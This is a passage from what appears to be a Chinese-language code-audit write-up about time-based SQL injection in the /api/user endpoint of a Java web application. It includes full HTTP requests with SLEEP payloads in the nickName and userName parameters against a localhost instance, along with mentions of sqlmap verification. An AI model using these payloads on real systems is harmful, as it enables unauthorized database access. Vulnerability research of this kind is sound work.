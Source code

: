 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOht7hrT7ZTmpRxmI7GP2cYygy8IcEtKzeknNoGgc3TbbuTg9iabFicWK6w/640?wx_fmt=png&from=appmsg "")  
  
并且根据这里的几个注解我们可以得出  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhAZMNMjGRSibnlZbuuvGEiaXgmMZiaM5OKMl0UjomPwG28tWoYKnqZ3lpA/640?wx_fmt=png&from=appmsg "")  
  
观察到UserController类被映射到了/api/user接口  
  
所以这里只要用户请求/api/user接口并带上MyUser实体类的参数，就会自动将该参数的值赋值给实体类new出来的对象myUser  
  
构造payload  
```
GET /api/user?page=1&limit=10&userName=1&nickName=1+AND+sleep(5) HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1:8088
Cookie: JSESSIONID=C19E8EA001366E48547AC99F8980D962; remember-me=YWRtaW46MTcxOTczNDI5MjU0MDphYmM1YmE5OTdlNjMwMWYwMmE2MjU4OTMxZjEwYzFhOQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```  
  
延时  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhOuFMSKBKEgKowBS5btpNYpibcyeG2JX7VQwlgauK5XfnB7b1P1aEtOQ/640?wx_fmt=png&from=appmsg "")  
  
sqlmap验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOh7n2SiaNJCyBzdoRiaFfowDaiahEHnTKRsOLfh9U6nExX10SibpyerJZGCQ/640?wx_fmt=png&from=appmsg "")  
#### userName参数SQL注入  
  
该SQL注入原理同上，不再叙述了  
  
payload  
```
GET /api/user?page=1&limit=10&nickName=1&userName=1+AND+(SELECT+9940+FROM+(SELECT(SLEEP(5)))rgGT) HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1:8088
Cookie: JSESSIONID=C19E8EA001366E48547AC99F8980D962; remember-me=YWRtaW46MTcxOTczNDI5MjU0MDphYmM1YmE5OTdlNjMwMWYwMmE2MjU4OTMxZjEwYzFhOQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```  
  
延时  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhzjj6RB7MBriamjRLLM3HVc6NYIiaBicvfxXfjVywZ4xY3ZmjY6q9LmoFQ/640?wx_fmt=png&from=appmsg "")  
  
sqlmap验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b6UzoibqnYFEgg4LZNcMIahHib6DcjZUOhNibYHtrTpcYV0Z5ibpUwWvuTgF3KNPqkFSZHDEBjmzE3VRDUVmZicq1SA/640?wx_fmt=png&from=appmsg "")  
#### dictName参数SQL注入  
  
